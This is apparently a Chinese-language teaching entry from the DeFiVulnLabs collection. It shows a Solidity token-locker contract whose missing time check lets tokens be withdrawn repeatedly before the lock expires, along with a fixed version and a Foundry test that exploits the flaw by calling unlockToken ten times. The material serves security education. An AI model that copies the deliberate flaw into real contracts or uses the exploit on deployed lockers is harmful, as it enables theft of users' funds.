 [Incorrect_sanity_checks.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Incorrect_sanity_checks.sol)

**名称**：错误的健全性检查 - 锁定时间结束前多次解锁

**描述**：该错误在于unlockToken函数，该函数缺少确保block.timestamp大于locktime的检查。 使得代币可以在锁定期结束之前多次解锁，这可能会导致重大的财务损失。

**解决办法**：

添加一个 require 语句来检查当前时间是否大于锁定时间，然后才能解锁tokens。

或修复：

```
uint256 amount = locker.amount;
if (block.timestamp > locker.lockTime) {
IERC20(locker.tokenAddress).transfer(msg.sender, amount);
locker.amount = 0;
}
```

**参考**: https://twitter.com/1nf0s3cpt/status/1681492477281468420

https://blog.decurity.io/dx-protocol-vulnerability-disclosure-bddff88aeb1d

**漏洞合约:**

```
contract VulnerableBank {
    struct Locker {
        bool hasLockedTokens;
        uint256 amount;
        uint256 lockTime;
        address tokenAddress;
    }

    mapping(address => mapping(uint256 => Locker)) private _unlockToken;
    uint256 private _nextLockerId = 1;

    function createLocker(
        address tokenAddress,
        uint256 amount,
        uint256 lockTime
    ) public {
        require(amount > 0, "Amount must be greater than 0");
        require(lockTime > block.timestamp, "Lock time must be in the future");
        require(
            IERC20(tokenAddress).balanceOf(msg.sender) >= amount,
            "Insufficient token balance"
        );

        // 将代币转移到该合约中
        IERC20(tokenAddress).transferFrom(msg.sender, address(this), amount);

        // 创建储物柜
        Locker storage locker = _unlockToken[msg.sender][_nextLockerId];
        locker.hasLockedTokens = true;
        locker.amount = amount;
        locker.lockTime = lockTime;
        locker.tokenAddress = tokenAddress;

        _nextLockerId++;
    }

    function unlockToken(uint256 lockerId) public {
        Locker storage locker = _unlockToken[msg.sender][lockerId];
        // 将金额保存到局部变量
        uint256 amount = locker.amount;
        require(locker.hasLockedTokens, "No locked tokens");

        // 健全性检查不正确。
        if (block.timestamp > locker.lockTime) {
            locker.amount = 0;
        }

        // 将代币转移给储物柜所有者
         // 这就是漏洞利用发生的地方，因为它可以被多次调用
         // 在锁定时间过去之前。
        IERC20(locker.tokenAddress).transfer(msg.sender, amount);
    }
}
```

**修复合约:** 

```
contract FixedeBank {
    struct Locker {
        bool hasLockedTokens;
        uint256 amount;
        uint256 lockTime;
        address tokenAddress;
    }

    mapping(address => mapping(uint256 => Locker)) private _unlockToken;
    uint256 private _nextLockerId = 1;

    function createLocker(
        address tokenAddress,
        uint256 amount,
        uint256 lockTime
    ) public {
        require(amount > 0, "Amount must be greater than 0");
        require(lockTime > block.timestamp, "Lock time must be in the future");
        require(
            IERC20(tokenAddress).balanceOf(msg.sender) >= amount,
            "Insufficient token balance"
        );

        // 将代币转移到该合约中
        IERC20(tokenAddress).transferFrom(msg.sender, address(this), amount);

        // 创建储物柜
        Locker storage locker = _unlockToken[msg.sender][_nextLockerId];
        locker.hasLockedTokens = true;
        locker.amount = amount;
        locker.lockTime = lockTime;
        locker.tokenAddress = tokenAddress;

        _nextLockerId++;
    }

    function unlockToken(uint256 lockerId) public {
        Locker storage locker = _unlockToken[msg.sender][lockerId];

        require(locker.hasLockedTokens, "No locked tokens");
        require(block.timestamp > locker.lockTime, "Tokens are still locked"); // Bug fixed
        // 将金额保存到局部变量
        uint256 amount = locker.amount;

        // 将令牌标记为解锁
        locker.hasLockedTokens = false;
        locker.amount = 0;

        //将代币转移给储物柜所有者
        IERC20(locker.tokenAddress).transfer(msg.sender, amount);
    }
}
```

***\*测试方法:\****

**forge test** --contracts src/test/Incorrect_sanity_checks.sol -vvvv

```
// 测试函数以演示 VulnerableBankContract 中的漏洞。
function testVulnerableBank() public {
    // 记录当前时间戳。
    console.log("Current timestamp", block.timestamp);

    // 通过虚拟机（vm）向“alice”发起“恶作剧”。
     // 从提供的代码片段来看，恶作剧函数的具体行为并不明显。
    vm.startPrank(alice);

    // 批准 VulnerableBankContract 代表“alice”从 BanksLPContract 花费 10000 个代币。
    BanksLPContract.approve(address(VulnerableBankContract), 10000);

    // 在创建储物柜之前记录“alice”的 BanksLPContract 余额。
    console.log(
        "Before locking, my BanksLP balance",
        BanksLPContract.balanceOf(address(alice))
    );

    // 在VulnerableBankContract中创建10000个代币的储物柜，锁定时长为86400秒（1天）。
    VulnerableBankContract.createLocker(
        address(BanksLPContract),
        10000,
        86400
    );

    // 在利用储物柜之前记录“alice”的 BanksLPContract 余额。
    console.log(
        "Before exploiting, my BanksLP balance",
        BanksLPContract.balanceOf(address(alice))
    );

    // 通过调用 'unlockToken' 函数 10 次来利用 VulnerableBankContract 中的锁柜。
     // 从提供的代码片段来看，所利用的确切漏洞并不明显。
    for (uint i = 0; i < 10; i++) {
        VulnerableBankContract.unlockToken(1);
    }

    // 利用储物柜后记录“alice”的 BanksLPContract 余额。
    console.log(
        "After exploiting, my BanksLP balance",
        BanksLPContract.balanceOf(address(alice))
    );
}
```

**红框**：在锁定期限结束前多次解锁。 紫色框：问题已修复。

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F2a5f723a-59c1-40c1-95a8-2da1c9867ef1%2FUntitled.png?table=block&id=e7201e51-76b4-4575-a7e7-1ca2dc8d1fd3&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

